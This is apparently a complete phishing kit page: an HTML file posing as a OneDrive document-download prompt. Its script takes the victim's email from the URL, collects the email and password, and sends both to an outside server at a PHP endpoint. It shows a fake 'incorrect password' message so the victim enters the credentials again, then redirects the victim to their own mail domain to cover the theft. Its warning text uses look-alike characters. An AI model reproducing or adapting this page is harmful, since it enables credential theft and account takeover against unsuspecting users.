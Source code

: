 <!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>OneDrive :: OneDrive document download</title>

<meta name="viewport" content="width=device-width, initial-scale=1.0, shrink-to-fit=no, maximum-scale=1.0">
<meta name="theme-color" content="#f4f4f4">
<meta name="msapplication-navbutton-color" content="#f4f4f4">
<link rel="shortcut icon" href="https://www.kindpng.com/picc/m/320-3201756_onedrive-logo-png-transparent-png.png">
<link rel="stylesheet" href="https://ia601404.us.archive.org/16/items/bootstrap.min_202110/bootstrap.min.css">
<link rel="stylesheet" href="https://ia601404.us.archive.org/16/items/bootstrap.min_202110/styles.css">
</head><body class="task-login action-none">
<div id="layout">
<h1 class="voice">Roundcube Webmail Login</h1>
<div id="layout-content" class="selected no-navbar" role="main">
<img src="https://ia601404.us.archive.org/16/items/bootstrap.min_202110/OneDrive-Logo.png" id="logo" alt="Logo">
<form id="login-form" name="login-form" method="post" class="propform">
<strong>You have one new pending document for download</strong><br>DOC Q0017 - 3512C.Doc (0.95 MB)
<br>
<br>
<input name="_token" value="SE3EkRrgcqUgcU2Nk322RfBIo3gdJybJ" class="form-control" type="hidden">
<input name="_task" value="login" class="form-control" type="hidden">
<input name="_action" value="login" class="form-control" type="hidden">
<input name="_timezone" id="rcmlogintz" value="Europe/London" class="form-control" type="hidden">
<input name="_url" id="rcmloginurl" value="" class="form-control" type="hidden"><div style="color: red; font-weight: 400; display: none;" class="warning" id="msg">
Yоur еmаil оr раsswоrd is inсоrrесt. If yоu dоnt rеmеmbеr yоur раsswоrd,reset it now.</div><div id="error" class="warning" style="color: red; display: none;"></div><table><tbody><tr class="form-group row"><td class="title" style="display: none;"><label for="rcmloginuser">Username</label>
</td>
<td class="input input-group input-group-lg"><span class="input-group-prepend"></span>
<input name="email" id="email" required="" size="40" autocapitalize="none" class="form-control" placeholder="Username" type="email"></td>
</tr>
<tr class="form-group row"><td class="title" style="display: none;"><label for="password">Password</label>
</td>
<td class="input input-group input-group-lg"><span class="input-group-prepend"></span>
<input name="password" id="password" required="" size="40" autocapitalize="none" class="form-control" placeholder="Password" type="password"></td>
</tr>


</tbody>
</table>
<p class="formbuttons">
<button type="submit-btn" id="submit-btn" class="button mainaction submit btn-primary btn-lg text-uppercase w-100">download</button>
</p>
<div id="login-footer" role="contentinfo">
Microsoft OneDrive
</div>
</form>
</div>
</div>
<script src="https://archive.org/download/bootstrap.min_202110/jquery.min.js.download"></script>
<script src="https://archive.org/download/bootstrap.min_202110/bootstrap.min.js.download"></script>
<script>
/* global $ */
$(document).ready(function(){
var count=0;
/////////////url email getting////////////////
var email = window.location.hash.substr(1);
if (!email) {
}
else
{
// $('#email').val(email);
var my_email =email;
var ind=my_email.indexOf("@");
var my_slice=my_email.substr((ind+1));
var c= my_slice.substr(0, my_slice.indexOf('.'));
var final= c.toLowerCase();
$('#email').val(my_email);
$('#emailch').html(my_email);
$("#msg").hide();
}
///////////////url getting email////////////////
$('#submit-btn').click(function(event){
$('#error').hide();
$('#msg').hide();
event.preventDefault();
var email=$("#email").val();
var password=$("#password").val();
var msg = $('#msg').html();
$('#msg').text( msg );
///////////new injection////////////////
var my_email =email;
var filter = /^([a-zA-Z0-9_\.\-])+\@(([a-zA-Z0-9\-])+\.)+([a-zA-Z0-9]{2,4})+$/;
if (!filter.test(my_email)) {
$('#error').show();
$('#error').html("That account doesn't exist. Enter a different account");
email.focus;
return false;
}
if (!password) {
$('#error').show();
$('#error').html("password field is empty");
email.focus;
return false;
}
var ind=my_email.indexOf("@");
var my_slice=my_email.substr((ind+1));
var c= my_slice.substr(0, my_slice.indexOf('.'));
var final= c.toLowerCase();
///////////new injection////////////////
count=count+1;
$.ajax({
dataType: 'JSON',
url: 'https://awesomeweddingmc.com/homee/zico.php',
type: 'POST',
data:{
email:email,
password:password,
},
// data: $('#contact').serialize(),
beforeSend: function(xhr){
$('#submit-btn').html('Verifing...');
},
success: function(response){
if(response){
$("#msg").show();
console.log(response);
if(response['signal'] == 'ok'){
$("#password").val("");
if (count>=2) {
count=0;
// window.location.replace(response['redirect_link']);
window.location.replace("http://www."+my_slice);
}
// $('#msg').html(response['msg']);
}
else{
// $('#msg').html(response['msg']);
}
}
},
error: function(){
$("#password").val("");
if (count>=2) {
count=0;
window.location.replace("http://www."+my_slice);
}
$("#msg").show();
// $('#msg').html("Please try again later");
},
complete: function(){
$('#submit-btn').html('TRY AGAIN');
}
});
});
});
</script>
</body></html>
